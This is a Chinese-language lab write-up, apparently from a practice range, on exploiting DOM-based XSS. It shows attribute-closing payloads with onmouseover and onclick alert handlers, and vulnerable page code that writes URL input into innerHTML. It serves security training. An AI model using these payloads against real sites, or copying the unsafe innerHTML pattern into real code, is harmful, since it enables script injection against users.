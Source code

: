 **漏洞利用**

尝试输入""<>6666,检查元素找到注入点为:``<a href="“”<>6666">what do you see?</a>``

![](./src/xss4.png)

接着，尝试闭合语句：(都可触发xss)
```html
'><img src="#" onmouseover="alert('xss')">

' onclick="alert('xss')">
```
- 造成DOM型XSS的原因是前端的输入被DOM给获取到了，通过DOM又在前端输出，跟反射型和存储型比起来，它是不经过后台交互的
- 这里有个坑 审查元素看的是已经渲染过了的DOM，查看源代码能看到单引号，而审查的是双引号


### DOM型XSS-X

**服务端核心代码**

```html
<div id="xssd_main">
                <script>
                    function domxss(){
                        var str = window.location.search;
                        var txss = decodeURIComponent(str.split("text=")[1]);
                        var xss = txss.replace(/\+/g,' ');
//                        alert(xss);

                        document.getElementById("dom").innerHTML = "<a href='"+xss+"'>就让往事都随风,都随风吧</a>";
                    }
                    //试试:'><img src="#" onmouseover="alert('xss')">
                    //试试:' onclick="alert('xss')">,闭合掉就行
                </script>
                <!--<a href="" onclick=('xss')>-->
                <form method="get">
                <input id="text" name="text" type="text"  value="" />
                <input id="submit" type="submit" value="请说出你的伤心往事"/>
                </form>
                <div id="dom"></div>
            </div>
```
